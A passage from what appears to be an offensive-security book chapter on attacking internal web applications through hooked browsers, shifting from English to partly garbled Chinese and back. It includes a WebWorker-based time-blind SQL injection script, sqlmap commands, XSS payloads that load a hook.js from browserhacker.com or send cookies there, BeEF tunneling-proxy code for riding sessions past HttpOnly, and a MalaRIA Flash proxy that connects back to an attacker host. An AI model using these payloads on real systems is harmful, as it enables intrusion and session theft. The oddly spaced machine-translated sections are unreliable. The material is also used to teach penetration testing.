var dbname_string = "";
// internal vars
var dataLength = 0;
var workersDone = 0;
var successfulWorkersDone = 0;

// Number of WebWorkers to spawn in parallel
// (1 WebWorker handles 1 char position)
var workers_number = 5;
// every 1 second calls checkComplete()
var checkCompleteDelay = 1000;
var start = new Date().getTime();

/* Iterates through dbname, converting characters
from Decimal to Char representation */
function finish(){
 dbname.shift(); // removes the first 0 index
 for(var i=0; i<dbname.length; i++){
  dbname_string += String.fromCharCode(dbname[i]);
 }
 console.log("Database name is: " + dbname_string);
 var end = new Date().getTime();
 console.log("Total time [" + (end-start)/1000 + "] seconds.");
}
/* Spawn new WebWorkers to handle data retrieval at 'start' position */
function spawnWorkers(start, end){
 for(var i=start; i<=end; i++){
 
// using eval to create WebWorker variables dynamically
 eval("var w" + i + " = new Worker('" + wwloc + "');");
 
/* When we get a message from a WebWorker, check which character
 at which position has been retrieved, and add it to the 'dbname'
 Array. If the message contains 'end' it means the WebWorker was
 querying an out of bound position (potentially 'dataLength')*/
 eval("w" + i + ".onmessage = function(oEvent){" +
 "var c = oEvent.data['char'];var p = oEvent.data['position'];" +
 "workersDone++;" +
 "if(oEvent.data['end']){if(dataLength==0){dataLength=p-1;}; " +
 "if(dataLength !=0 && dataLength > (p-1)){dataLength=p-1;};}else{" +
   "successfulWorkersDone++;" +
   " console.log('Retrieved char ['+c+'] at position ['+p+']');" +
   "dbname[p]=c; console.log('Workers done [' + workersDone + ']." +
   " DataLength ['+dataLength+']');}}; ");
 eval("var data = {'uri':'" + uri + "', 'port':" + port +
  ", 'path':'" + path +"', 'payload':'" + payload +
  "', 'index':0,'seconds':" + timeDelay + ",'position':" + i + "};");
 eval("w" + i + ".postMessage(data);");

 position++;
 }
}

/* Every N seconds (defined in 'checkCompleteDelay') check if
WebWorkers have completed, and eventually spawn more of them,
or call finish()*/
function checkComplete(){
 if(workersDone == workers_number){
 console.log("Successful workers done ["+successfulWorkersDone+"]");

 /* all spawned workers are complete, check if we reached dataLength,
  or spawn more dataLength == 0 means we still need to identify the
  length of the data to be retrieved */
  if((dataLength != 0 && successfulWorkersDone !=0)
    && successfulWorkersDone == dataLength){
   console.log("Finishing...");
   clearInterval(checkCompleteInterval);
   finish();
  }else{
   // spawn additional workers
   console.log("Spawned other [" + workers_number + "] workers.");
   workersDone = 0;
   spawnWorkers(position, position+(workers_number-1));
  }
 }else{
  console.log("Waiting for workers to complete..." +
   "Successful workers done ["+successfulWorkersDone+"]");
 }
}

// first call
spawnWorkers(position, workers_number);

var checkCompleteInterval = setInterval(function(){
  checkComplete()}, checkCompleteDelay);

}else{
console.log("WebWorker not supported!");
}
```

The target is an internal network web application available at 172.16.37.149:8080. After identifying that the base HTTP response time for the / resource is always less than 0.2 seconds, you can be confident using a time delay of 2 seconds (timeDelay variable). The number of workers used in parallel defaults to 5, but can be altered using the workers_number variable. The code executed by each WebWorker needs to be loaded from the same-origin that loads the controller code, and can be configured through the wwloc variable.

When spawnWorkers() is called, initially with position 1 (because you need to retrieve the first character of the database name), it creates five WebWorkers. Each worker focuses on retrieving the character at a specified position. The first works on position 1, the second on position 2, and so on. At the same time, the checkComplete() function is called every second. This function is responsible for checking how many workers completed their jobs successfully, and if the end of the database name was reached.

One way to discover the length of the data to be retrieved is to issue seven requests for an out-of-bounds position, and check if they were all delayed. MSSQL doesn’t allow null characters in the database names, so this makes the process more straightforward. In this case the length of the database called sql_InjEction_1234 is 18, so if all the seven requests to retrieve the character at position 19 are not delayed, it means you have reached the end of the data.

More workers are spawned until dataLength is known. When dataLength has been discovered, and all workers completed, the interval used to call checkComplete() is cleared, and the database name value is reconstructed. The dbname array contains all the retrieved characters in their decimal representation. You just need to iterate through it and call String.fromCharCode(char) to have the string representation. This task is executed by the finish() function.

The result of executing this technique with five workers in parallel, using time delays of 2 seconds, and having a base response time of 0.2 seconds, can be seen in Figure 9-13. In just 44 seconds, the database name is retrieved.

 start figure 

**Figure 9-13:** Five WebWorkers retrieving database name in Chrome


 end figure 

Trying the same with 10 workers reduces the total retrieval time to 30 seconds, as you can see in Figure 9-14.

 start figure 

**Figure 9-14:** Ten WebWorkers retrieving database name in Firefox


 end figure 

Starting Sqlmap with the same time-delay settings as the cross-origin demonstration earlier, it takes almost 140 seconds to retrieve the same results:

```
./sqlmap.py -u "http://172.16.37.149:8080/?book_id=1"
 -p book_id --dbms "mssql" --technique T --time-sec=2
 -v 3 --current-db --threads 5
[19:53:56] [DEBUG] performed 151 queries in 139.56 seconds
current database:    'sql_InjEction_1234'
```

Although five threads are specified, Sqlmap disabled multithreading when dealing with time-based blind SQL injection. All the requests are effectively sent in sequential order.

Additionally, if you are controlling a browser in the internal network while targeting an internal web application, the communication latency will be less and the reliability will be higher. This means you can reduce the time-delay used in the SQL to get better efficiencies on discovery and data egress.

Taking this to the next level, you could even split the job of sending requests to the same target and reconstructing bytes across multiple hooked browsers. You can then reconstruct, on the server-side, data arriving from the browsers. The full code of the distributed time-based SQL injection can be found on [`browserhacker.com`](https://browserhacker.com).

In this section, you have explored techniques to exploit SQL injection vulnerabilities. Now, you will examine Cross-site Scripting vulnerabilities and how you can exploit these from the browser.

## Detecting Cross-site Scripting Vulnerabilities


-   跨域脚本注入（XSS）漏洞在第二章中进行了分析，提供了真实网页应用中该类漏洞的示例。本节重点从被钩针浏览器中完全检测 XSS 漏洞。  

### 跨域盲目 XSS 检测

要从跨域位置发现 XSS 漏洞，你需要能够执行两个操作：能够发送攻击，并判断攻击是否成功。

在前面章节的方法指导下，发现了 `http://192.168.1.1/chapter?id=1` URL，接下来是检查 `id` 参数是否易受 XSS 影响。为此，需要在 IFrame 中加载该 URL，并在参数值后追加经典 XSS 字符串。结果如下：

``` 
<iframe src="http://192.168.1.1/chapter?id=1 
  %3Cscript%3Ealert(1)%3C%2Fscript%3E">
```

当该 IFrame 被追加到被钩针页面的 DOM 时，跨域 URL 会被加载。如果资源对反射式或存储式 XSS 都有漏洞，可能会出现弹窗。显然，你需要一种方式来确认 XSS 载荷是否被触发。由于 IFrame 是在被钩针页面中注入的，你无法直接看到弹窗——这会被受害者看到，而如果你的目标是隐蔽性，则不希望出现这种情况！

这种通过在 IFrame 中加载资源进行 XSS 检测的思路在 2009 年由 Gareth Heyes 扩展，他当时创建了 XssRays。XssRays 是一种纯 JavaScript 的 XSS 扫描器。简而言之，XssRays 会获取页面的所有链接和表单，并在这些资源的路径以及参数上追加 XSS 载荷，然后在 IFrame 中加载。

2009 年时，仍可利用 URI 片段标识符（#）实现子到父 IFrame 的通信，即使在跨域场景下；但现代浏览器已修补此漏洞。事实上，这类问题可以被视为同源策略（SOP）违规，因为根据 SOP，跨域资源加载到 IFrame 中不应能与顶层窗口通信。

XssRays 完全使用 JavaScript 编写，使其非常适合直接在被钩针浏览器中使用。可以通过替换已修补的片段标识符绕过，在现代浏览器中复用旧版 XssRays 逻辑。新的负载需要采用更为严谨、符合 SOP 的方式：当成功发现 XSS 漏洞时，攻击者需要在不违背 SOP 的前提下通知自己。

新负载会将 IFrame 的 src 更新为攻击者已知的资源，例如服务器上的处理器。以之前的例子为例，新的载荷如下：

``` 
<iframe src="http://192.168.1.1/chapter?id=1%3Cscript%3Elocation%3D'http%3A  
%2F%2Fbrowserhacker.com%2Fxssrays%3Fdetails%3D....'%3C%2Fscript%3E">
```

如果攻击成功，会向 http://browserhacker.com/xssrays 发起 GET 请求，并附带关于 XSS 漏洞的详细信息。该方法能够消除假阳性，因为只有在实际执行了指示后，服务器上的处理器才会收到 GET 请求。

XssRays 的改进版本已纳入 BeEF，并且可以注入到被钩针浏览器中，用于检查同源和跨域资源的 XSS 漏洞。下面的图（Figure 9-15）展示了 XssRays 在 BeEF 中的工作流程：

 start figure 

[**Figure 9-15:** XssRays 的高层架构


 end figure 

虽然 XssRays 也可以用于同源场景来发现 XSS 漏洞，但其价值有限，因为你本身就可以在不受 SOP 限制的情况下访问整个同源。同源 XSS 漏洞并不一定在横向移动基础设施时提供更大优势。

跨域 XSS 漏洞的检测能够显著扩展攻击面。间接利用不可直接从 Internet 访问的服务器上的 XSS 漏洞非常有价值。目标可能被组织认为不可访问，从而拥有较为 immature 的安全姿态。

如果你在跨域资源中发现 XSS 漏洞，完全可以在已被钩针的页面中隐藏 IFrame 加载该资源，或打开新的弹窗/下拉窗口（如第三章所述）。后续章节将进一步探讨在新资源上钩针浏览器的方法。

在 Internet 上隐藏自身 IP 地址是跨域 XSS 检测的另一个优势。资源不是从攻击者位置加载，而是由被钩针浏览器加载，这使得目标的 IP 地址被 Web 应用记录。请记住，这一特性适用于从被钩针浏览器所执行的所有活动，这些活动是发起（大多数）匿名攻击的跳板。

### 跨域盲目 XSS 利用

目前，你已通过被钩针浏览器在内部网络中拥有一个受控的源（origin）。假设该源可以通过 Internet 访问。你还检测到一个非可路由的 Web 应用，且存在 XSS 漏洞。下一步是获取该源的访问权限，过程相当简单。

只需在新发现的源中再建立一个钩子（hook），即可实现。需要注意不要混淆被钩针浏览器与被钩针源：被钩针浏览器至少包含一个被钩针源，而被钩针源至少包含一个被钩针浏览器。通常是一对一的映射。你可能已经在受害者浏览器中钩了一个源，这意味着有一个浏览器和一个源被钩住。若在已钩的源的 DOM 中创建一个隐藏 IFrame 并指向另一个源，则同一浏览器中会钩住两个源。同样，同源下钩多个浏览器也是可能的，例如框架通过 XSS 漏洞钩住多个浏览器。

下面进入获取新源的具体过程。基于前面 XssRays 的示例，使用 BeEF 在隐藏 IFrame 中钩住 `http://192.168.1.1/chapter?id=1` 这一脆弱资源的步骤如下（需要执行两行 JavaScript）：

``` 
var i = beef.dom.createInvisibleIframe();
i.setAttribute(
  'src', 
  "http://192.168.1.1/chapter?id=1"+
  "<script src='http://browserhacker.com/hook.js'></script>");
```

利用 XSS 漏洞成功钩住新源后，你即获得了间接访问权限。由于该源不可直接路由，所有通信必须通过被钩针浏览器进行，这为你提供了对原本认为不可从 Internet 访问的内部 Web 应用的访问。

随后，可以使用浏览器隧道代理进一步发起对服务器的攻击，相关细节将在后续章节中说明。

### XSS 过滤器规避

现代浏览器默认实现 XSS 过滤控制，这会降低跨域钩针的可靠性。绕过这些措施的技术将继续成为一场虚拟的军备竞赛，但很可能在你的被钩针浏览器中仍有一条可行的路径。 


Chrome 的过滤器，也在 Safari 中实现（因为它们都使用 WebKit 渲染引擎），被称为`XssAuditor`。此过滤器无法防止使用 data URI 向量进行的 XSS 攻击。Mario Heiderich 在 2010 年向 Chrome 开发团队报告了此问题。24 此时的此绕过尚未被修复。

data URI 方案最初是用于在 HTML 页面中以外部资源的形式包含内联数据。其格式为：

```
data:[<MIME-type>][;charset=<encoding>][;base64],<data>
```

当你对原始 PNG 图像进行 base64 编码时，会得到以下 data URI：

```

```

这种方案并不阻止包含其他类型的内容，例如使用 charset 为 text/html 的类型并 base64 编码字符串如<script>alert(1)</script>。如果你编码该字符串，会得到以下 data URI：

```
<iframe src="data:text/html;base64, \
PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="></iframe>
```

这正是 BeEF 的 XssRays 功能在 Chrome 和 Safari 浏览器中使用的相同技术。下面的 JavaScript 代码片段展示了其逻辑：

```
if(beef.browser.isC() || beef.browser.isS()){
  // 如果浏览器是 Chrome 或 Safari
  var datauri = btoa(url);
  iframe.src = "data:text/html;base64," + datauri;
}else{
  iframe.src = url;
}
```

现在你已经了解了可以利用 XSS 漏洞发起的攻击，让我们进一步提升。在下一节中，你将探索不同的方法来实现你的目标。

# 通过浏览器代理

一个宽松的跨源策略，使用通配符或 SOP 绕过，允许你使用被钩住的浏览器作为开放的 HTTP 代理。如果没有 SOP 绕过或配置错误，你仍然可以通过被钩住的浏览器代理请求，但 SOP 将你限制在当前被钩住的源域。这在以下情况下很有用：通过 XSS 钩住一个源域，但你没有直接访问它。SOP 绕过在第四章中涵盖。

BeEF 的 Tunneling Proxy 扩展在 127.0.0.1:6789 绑定一个服务器套接字，能够解析原始 HTTP 请求。以下代码片段展示了其部分功能：

```
def initialize
  @conf = BeEF::Core::Configuration.instance
  @proxy_server = TCPServer.new(
   @conf.get('beef.extension.proxy.address'), 
   @conf.get('beef.extension.proxy.port')
  )

  loop do
    proxy = @proxy_server.accept
    Thread.new proxy, &method(:handle_request)
  end
end

def handle_request socket
  request_line = socket.readline

  # HTTP method # defaults to GET
  method = request_line[/^\w+/]

  # HTTP version # defaults to 1.0
  version = request_line[/HTTP\/(1\.\d)\s*$/, 1]
  version = "1.0" if version.nil?

  # url # host:port/path
  url = request_line[/^\w+\s+(\S+)/, 1]

  # We're overwriting the URI::Parser UNRESERVED 
  # regex to prevent BAD URI errors when sending 
  # attack vectors (see tolerant_parser)
  tolerant_parser = URI::Parser.new(
   :UNRESERVED => BeEF::Core::Configuration.instance.get(
     "beef.extension.requester.uri_unreserved_chars")
  )
  uri = tolerant_parser.parse(url.to_s)

  raw_request = request_line
  content_length = 0

  loop do
    line = socket.readline

    if line =~ /^Content-Length:\s+(\d+)\s*$/
      content_length = $1.to_i
    end

    if line.strip.empty?
      # read data still in the socket
      # exactly <content_length> bytes
      if content_length >= 0
        raw_request += "\r\n" + socket.read(content_length)
      end
      break
    else
      raw_request += line
    end
  end
  [...snip...]
end
```

原始 HTTP 请求到达服务器套接字后会被解析并存储在 BeEF 的数据库中。另一个组件会从数据库中检索原始请求数据，并将其转换为 XMLHttpRequest。这些转换后的请求已准备好通过 XHR-polling、WebSocket 或 DNS 等通信通道注入到被钩住的浏览器 DOM 中。如第三章所述，这些通道包括 XHR-polling、WebSocket 或 DNS。

Requester 服务器端组件会在被钩住的浏览器中注入正确的 BeEF JavaScript API 调用：

```
def add_to_body(output)
  @body << %Q{
    beef.execute(function() {
      beef.net.requester.send(
        #{output.to_json}
       );
    });
  }
end
```

变量 output，在代码片段中可见，是一个 Hash 的 JSON 表示，包含发送所需的所有请求详细信息。这些信息作为参数传递给 beef.net.requester.send 方法。该方法为 requests_array 数组的每个条目创建一个 XMLHttpRequest，并调用 beef.net.forge_request，如下所示：

```
beef.net.requester = {

 handler: "requester",

 send: function(requests_array) {  
  for (i in requests_array) {  
   request = requests_array[i];  
   
   # use BeEF's forge_request API to create
   # an XHR object with all the required info
   beef.net.forge_request('http', request.method, request.host, 
    request.port, request.uri, null, request.headers, request.data, 
    10, null, request.allowCrossDomain, request.id, function(res, 
    requestid){

      # the callback to be executed, which sends back
      # to the server the XHR response data 
      beef.net.send('/requester', requestid, {
       response_data: res.response_body,
       response_status_code: res.status_code,
       response_status_text: res.status_text,
       response_port_status: res.port_status,
       response_headers: res.headers});
   });
  }
 }
};
```

forge_request 的最后一个参数是一个匿名函数，用作回调，在 forge_request 完成时被调用。这会触发 beef.net.send，以将 XHR 响应数据（如状态、头部和体）发送回 BeEF 服务器。服务器会剥除部分 HTTP 响应头，主要是与缓存和编码相关的字段，并调整 Content-Length 响应头。这种响应规范化是必要的，因为原始 HTTP 响应是通过 XMLHttpRequest 获取的，可能包含 GZIP 编码头部。如果 Tunneling Proxy 服务器保留这些头部，可能会导致 Content-Length 不匹配问题，因为被钩住的浏览器在获得 XHR 响应后已经解码了响应。

在此阶段，规范化后的原始 HTTP 响应可以发送回最初向 BeEF 的 Tunneling Proxy 端口 6789 发送请求的套接字。根据 BeEF 中配置的轮询超时、目标应用的响应时间以及被钩住浏览器的带宽，你可能会在收到响应时注意到几秒的延迟。

图 Figure 9-16 展示了 Tunneling Proxy 内部的高层次视图。

 start figure 

**Figure 9-16:** BeEF 的 Tunneling Proxy 内部


 end figure 

为了减少这些延迟，BeEF 的 WebSocket 通信通道可以帮助。默认情况下该通道是禁用的，需要先启用。WebSocket 是一个流式协议，比默认的 XHR-polling 通道快得多。WebSocket 通道仅在被钩住的浏览器完全支持时启用，因此无需担心失去对较旧浏览器的钩连可能。

## 通过浏览器浏览

最常见的代理配置是使用标准 HTTP 代理作为浏览 Internet 时的中介。让我们稍微调整这个模型。

与其使用标准 HTTP 代理，你可以插入被钩住的浏览器。现在中介是被钩住的浏览器，而不仅仅是代理，它不仅代理你的请求，还为所有请求提供代理的权限。结果是，被钩住的浏览器允许你浏览被钩住的源域，这可能之前超出了你的可达范围。


-   [重要] 每个请求都携带了被钩钉（hook）浏览器的所有权限。如前面本章所强调的，如果目标已认证到某个应用，那么你的攻击浏览器也是已认证的。在 `Figure 9-17`<a href="#c09.html#figure9-17"></a> 中，你会看到 Opera 浏览器已被配置为使用 `127.0.0.1:6789` — BeEF 的隧道代理 URI — 作为默认 HTTP 代理。

start figure

**Figure 9-17:** Opera 使用 BeEF 的隧道代理


end figure

从 Opera 浏览器发出的攻击请求指向 `/dvwa/vulnerabilities/upload` 资源，属于被钩钉域。请求到达代理，如 `Figure 9-18`<a href="#c09.html#figure9-18"></a> 所示的日志所示，随后被转换为 XMLHttpRequest 并注入被钩钉浏览器。

start figure

**Figure 9-18:** 隧道代理调试日志


end figure

在 `Figure 9-19`<a href="#c09.html#figure9-19"></a> 中，你可以看到注入到 Firefox 被钩钉浏览器的 XMLHttpRequest 的原始请求和响应头。注意，User-Agent 和源 IP 仍然是被钩钉浏览器的。

start figure

**Figure 9-19:** 被钩钉浏览器 (Firefox) 代理请求


end figure

所有通过隧道代理传输的请求和响应都存储在 BeEF 数据库中，可在管理员 UI 中查看，如 `Figure 9-20`<a href="#c09.html#figure9-20"></a> 所示。你可以按路径、请求时间、响应时间、域名等进行排序。这将为你提供针对目标发送的所有请求的历史记录视图。

start figure

**Figure 9-20:** 所有代理请求/响应对可在 BeEF 的管理员 UI 中详细分析。


end figure

### 绕过 HttpOnly

鉴于 Web 应用认证已非常普遍，大多数人不再多加思考。但正如我们所指出的，HTTP 是无状态协议，默认没有处理“状态”或“会话”概念的原生方法。为了让 HTTP 表现出状态性，从而支持用户会话，引入了 Cookie。<sup>25</sup> 遗憾的是，Cookie 一直是一种脆弱的方式来区分已认证和未认证的 Web 应用用户。

#### 跨站脚本 Cookie 窃取

你可能熟悉下面这个常见的 XSS 向量用于窃取会话 Cookie：

```
<script>document.location.href="browserhacker.com/ \
cookies?c="+document.cookie</script>
```

攻击者可以通过新窃取的值设置自己的 Cookie，从而“骑”会话。这个简单过程使用 JavaScript 窃取包含会话令牌的 Cookie。

为缓解因该漏洞导致的 Cookie 窃取，Web 开发者开始添加更多安全检查，例如启用 HttpOnly 标记。该标记应阻止 JavaScript 读取 Cookie，进而阻止攻击者访问会话。如果这仍不足够，部分开发者还会验证 Referrer、User-Agent 头部，甚至源 IP。

然而，这些额外的安全措施仍可被 XSS 漏洞绕过。下面的章节展示了你作为攻击者如何绕过这些防护措施。

#### 通过代理绕过 HttpOnly

HttpOnly 标记阻止脚本访问 Cookie，但 Cookie 在其他场景下仍然正常工作。例如，Cookie 会随每个请求一起发送到最初设置它的源站点。

你无法直接读取 Cookie 中的会话令牌，但可以创建请求使其在头部携带该令牌。即，通过向浏览器发送指令，让它发送请求到源站点，结果 Cookie 会随请求一起出现，你即可发送已认证的请求并完整访问响应内容。

在这种情况下，你无需直接读取 Cookie，只需通过浏览器代理发送请求即可。此时，你不必读取包含会话 Cookie 的会话令牌。

下面我们使用 Damn Vulnerable Web App（DVWA）<sup>26</sup> — 一款专门用于学习安全问题的故意脆弱 Web 应用 — 来进一步说明。DVWA 不会在 Set-Cookie 头中使用 HttpOnly 标记，但你可以通过添加以下代码在 `dvwa/includes/dvwaPage.inc.php` 文件的第 11 行后实现该标记：

```
$current_cookie = session_get_cookie_params();  
$sessid = session_id();  
setcookie(  
    'PHPSESSID',//name  
    $sessid,//value  
    0,//expires 
    $current_cookie['path'],//path  
    $current_cookie['domain'],//domain  
    false, //secure
    true //httponly  
);
```

完成此快速补丁后，每次创建 PHPSESSID Cookie 时都会设置 HttpOnly 标记，从而稍微加强了 DVWA。现在，让我们绕过这种防护措施。

为了证明你无需读取 Cookie 即可“骑”目标会话，可以钩钉 DVWA 源站点并通过该浏览器代理发送请求。钩钉后，你可以使用 BeEF 的隧道代理将请求通过被钩钉浏览器隧道化，从而使其在已认证会话的上下文中信任你的请求。下面的 URL 会利用已认证的反射型 XSS 漏洞钩钉 DVWA 源站点：

```
http://browservictim.com/dvwa/vulnerabilities/xss_r/?name=\
 %3Cscript%20src=%22http://browserhacker.com/hook.js%22%3E%\
3C%2Fscript%3E# 
```

在 `Figure 9-21`<a href="#c09.html#figure9-21"></a> 中，你可以看到使用 Opera 浏览器访问被钩钉域时的原始请求/响应，来自隧道代理日志。

start figure

**Figure 9-21:** 代理已认证资源


end figure

在 `Figure 9-22`<a href="#c09.html#figure9-22"></a> 中，你会注意到 Firefox 被钩钉浏览器请求了 `/dvwa/vulnerabilities/exec` URL，并自动在请求中附带了正确的 PHPSESSID Cookie 值。

start figure

**Figure 9-22:** 被钩钉浏览器代理已认证资源


end figure

这表明，HttpOnly 标记对使用诸如隧道代理等高级技术进行的会话骑行攻击并不有效。窃取并替换 Cookie 值的传统手段在存在被钩钉浏览器的情况下已被这些技术所取代。即使应用采用双因素认证或其他高级校验（如源 IP、User-Agent），单一 XSS 导致的会话骑行攻击仍能使所有防护层失效。此时，HttpOnly 标记也无济于事，正如前文所示。

### 通过浏览器进行 Burp


Why 不要 只 简单 浏览 目标 浏览器中的钩 目域 就 停 止 时，你 可以 同时 寻找 诸如 SQL 注入 或 Remote Command Execution 等 附加 漏洞。BeEF 的 代理 不 仅 接受 浏览器 的 连接，还 可以 接受 任何 Web 客户端 软件 的 Web 流量。

一种 流行 的 方法 是 使用 Dafydd Stuttard 的 Burp Suite 来 查找 这类 漏洞。渗透测试人员 经常 使用 Burp 来 查找 安全漏洞。Burp 不 仅 可以 用 于 Web 应用，还 可以 用 于 任何 使用 HTTP 作为 主 协议 的 应用 或 系统。

有趣的是，下 面 的 场景 会 让 你 在 代理 后 面 面 使用 代理。 在这 种 情况下， 你 想 要 将 Burp 通过 BeEF 的 Tunneling Proxy 进行 代理。Burp 支持 通过 HTTP（或 SOCKS）代理 设置 来 进行 upstream 代理， 如 图 9-23 所示。

start figure

**Figure 9-23:** Burp 使用 BeEF 的 Tunneling Proxy 作为 upstream 代理


end figure 

下一 步 是 配置 浏览器 使 其 使用 Burp 作为 默认 代理。 继续 我们 对 DVWA 的 考察， 如果 在 应用 内 浏览， 从  hooked 页面 [/dvwa/vulnerabilities/xss_r](http:///dvwa/vulnerabilities/xss_r) 开始， 你 会 在 Burp 的 SiteMap 标签页 下 看到 附加 资源 正在 被 发现。 这些 链接 和 表单 动作 被 Burp 识别， 并 将 指向 的 资源 添加 到 SiteMap 树 中。 当 你 有 了 多 个 资源 后， 可以 使用 Burp 的 Spider 组件 来 进一步 发现 更 多 资源， 如 图 9-24 所示。

start figure

**Figure 9-24:** 向 Burp 的 Spider 范围 添加 网站 资源 分支


end figure 

Spider 将 希望 发现 许多 新的 资源， 供 你 检查 安全漏洞。 例如， 如果 Spider 发现 了 /dvwa/vulnerabilities/sqli/ 资源， 你 会 看到 它 期望 一个 id 参数。 使用 Burp 的 Repeater 组件 更 改 默认 参数 输入 为 不 同 的 整数， 你 会 观察 到 不 同 的 输出， 因此 合理 地 认为 这里 有一个 某 种 数据存储 的 查询 正 在 发生。

在 这 个 阶段， 你 可能 想 要 检查 该 资源 是否 受 SQL、LDAP 或 XML 注入 影响。 如果 你 使用 的是 Burp Suite Professional， 你 可以 使用 Scanner 组件， 如 图 9-25 和 图 9-26 所示。

start figure

**Figure 9-25:** 在 特定 资源 上 开始 主动 扫描


end figure 

或者， 如果 你 没 有 Burp Suite Professional， 你 仍 然 可以 使用 免费 版 的 Intruder 组件， 它 允许 你 模糊 资源 并 定义 注入 点 和 负载。 Intruder 是 一个 非常 有 用 的 组件， 并且 渗透测试人员 经常 使用 它， 即使 他们 仍 然 可以 使用 自动 Scanner， 因为 它 可以 高度 定制， 并且 可以 添加 你 自己的 攻击 向量 和 输出 过滤 规则。

start figure

**Figure 9-26:** 发现 一个 漏洞 资源


end figure 

如 图 9-26 所示， 该 资源 /dvwa/vulnerabilities/sqli/?id=xyz 看 起来 对 SQL 注入 是 脆 弱 的， 并且 数据库 看 起来 是 MySQL。

通过 目标 浏览器 发起 攻击 不 仅 将 恶意 请求 在 目标 源 站 点 的 上下文 中 传输， 还 会 增 加 隐 瞒 性。 目标 服务器 的 日志 将 包含 目标 浏览器 的 IP 地址， 而 不是 攻击 者 的 IP。

Sqlmap 通过 浏览器

Sqlmap 是 一 个 更 受 歡 迎 的 开源 工具， 用 于 利 用 SQL 注入， 可以 通过 Tunneling Proxy 使 用。 如果 你 没 有 SOP 绕 过， 你 只 能 目 标 钩 目 域。 如前 面 所 述， 目标 将 收 到 从 目标 浏览器 发出 的 恶意 SQLi 负载， 而 不是 直接 来 自 攻击 者 IP。 这种 隐 瞒 性 可能 取 决 于 其 他 层 次 控 制 的 存在， 这 些 控制 可能 保 护 了 Web 应用。

假 设 你 正 在 使用 Tunneling Proxy 和 Burp， 类 似 早 先 的 场景， 并且 你 发现 了 一个 资源， 该 资源 被 Burp 标记 为 对 SQL 注入 脆 弱。 在这 种 情况 下， /dvwa/vulnerabilities/sqli/?id=abc 看 起来 可以 利 用。 要 使 用 Sqlmap 利 用 这个 漏洞， 使 用 如 下 命令 和 参数：

```
./sqlmap.py --proxy http://127.0.0.1:6789 -u \
"http://172.16.37.147/dvwa/vulnerabilities/sqli \
/?id=abc&Submit=Submit" -p id -v 3 --current-db
```

注 意 使 用 了 --proxy 选 项， 指 定 了 BeEF 代理 的 URI。 通过 Firebug 检 查 目 标 浏览器 的 原 始 请 求， 你 可以 看 到 恶意 的 URL 编码 SQLi 攻击 向量 在 图 9-27 中。

start figure

**Figure 9-27:** 目标 浏览器 发出 的 Sqlmap 请求


end figure 

BeEF 的 管 理 界 面 允 许 你 监 查 所有 通过 目标 浏览器 提 交 的 请 求 和 响 应。 这 些 信 息 在 攻 击 情 况 下 可 能 有 用。 图 9-28 显 示 你 可以 检 查 原 始 HTTP 请 求， 该 请 求 包含 取 得 当 前 数据 库名 的 向 量， 并 且 相 关 的 响 应 包含 期 望 的 值 dvwa。

start figure

**Figure 9-28:** Sqlmap 请 求 在 BeEF 的 管 理 界 面 中


end figure 

在 图 9-29 中， 你 可以 看 到 目 标 浏览器 的 原 始 请 求 和 响 应 的 详 细 信 息。


MalaRIA 由两个组件组成：Flash 或 Silverlight 客户端小部件以及代理后端。这两个客户端小部件的工作方式相同，但这里只讨论 Flash 小部件。下面的代码是 malariaproxy.mxml 的 SWF Flex 源码片段。浏览器加载 SWF 文件后，它会立即连接到代理后端，等待指令：

<x0.2367><y0.2469>```java
<mx:Application xmlns:mx="http://www.adobe.com/2006/mxml" 
layout="absolute" xmlns="*" 
creationComplete="useHttpService()">
<mx:Script>
<![CDATA[
[...]

/* Connect back to the proxy backend*/
public function useHttpService():void {
    socket = new Socket();
    ExternalInterface.call("log", "Connecting back to malaRIA");
    socket.addEventListener(Event.CONNECT, this.connectHandler);
    socket.addEventListener(ProgressEvent.SOCKET_DATA, this.onData);
    socket.connect("browserhacker.com", 8081);
}
/*handle data coming from the proxy backend*/
private function onData(event:ProgressEvent):void
{
    ExternalInterface.call("log", "Got data from proxy");
    var data:String = socket.readUTFBytes(socket.bytesAvailable);
    handle(data);
}

public function handle(data:String):void {
  var regresult:Object = /([^ ]+) ([^ ]+) ([^ ]+)( (.*))?/.exec(data);
  var verb:String = regresult[1];
  var url:String = regresult[2];
  var accept:String = regresult[3];
  var reqData:String = regresult[5];
  ExternalInterface.call("log", "Trying: [" + verb + " " + url + " "  
+ accept + " " + (verb == "POST" ? " " + reqData : "") + "]");

  /* issue the request to the target, as requested by the proxy*/
  var urlRequest:URLRequest = new URLRequest(url);
  urlRequest.method = (verb == "POST") ? URLRequestMethod.POST :
   URLRequestMethod.GET;
  if (reqData != null && reqData != "") {
    urlRequest.data = new URLVariables(reqData);
  }

 var loader:URLLoader = new URLLoader();
 loader.dataFormat = URLLoaderDataFormat.BINARY;

 /* send back the response to the proxy*/
 loader.addEventListener(Event.COMPLETE, onComplete);
 loader.addEventListener(IOErrorEvent.IO_ERROR, onIOError);
 loader.load(urlRequest);
 ExternalInterface.call("log", "Sent");
}

public function onComplete(event:Event):void {
 socket.writeUTFBytes(event.target.bytesTotal + ":");
 socket.writeBytes(event.target.data);
 socket.flush();
 ExternalInterface.call("log", "Sending back data - length " +  
event.target.bytesTotal + " (" + event.target.data.length + ")");
} 
[...]
    </mx:Script>
</mx:Application>
```

You can start the proxy back end with the following command:

<x0.2367><y0.2469>```java
sudo java malaria.MalariaServer browserhacker.com 8081
```

This command binds the malaRIA back end on port 8080. You want to point your browser to this port to allow all the traffic to be relayed through the SWF widget injected in the target’s hooked browser. Port 8081 is used by the malaRIA back end to handle reverse connections coming from the widget. You need root privileges to start the server because the application binds two additional sockets on ports 843 and 943. This is demonstrated in Figure 9-31.

 start figure 

**Figure 9-31:** malaRIA proxy ready to receive connections from the SWF widget


 end figure 

These two ports are required because when the SWF or Silverlight widget connects back to the malaRIA server, it first needs to retrieve the cross-origin policy for browserhacker.com. If the widget is SWF, it tries to retrieve the policy from port 843. However, if it’s Silverlight it points to port 943. This is why the FlexPolicyServer.java class, part of the proxy back-end code, has the following method that returns the right cross-origin policy:

<x0.2367><y0.2469>```java
public static void printFlexPolicy(PrintStream clientOut, \
String hostname, int port) {
 clientOut.print("<?xml version=\"1.0\"?>\n");
 clientOut.print("<!DOCTYPE cross-domain-policy SYSTEM  \
\"/xml/dtds/cross-domain-policy.dtd\">");
 clientOut.print("<cross-domain-policy>");
 clientOut.print("<site-control permitted-cross-domain- \
policies=\"master-only\"/>");
 clientOut.print("<allow-access-from domain=\"" +  
 hostname + "\" to-ports=\"" + port + "\" />");
 clientOut.print("</cross-domain-policy>");
}
```

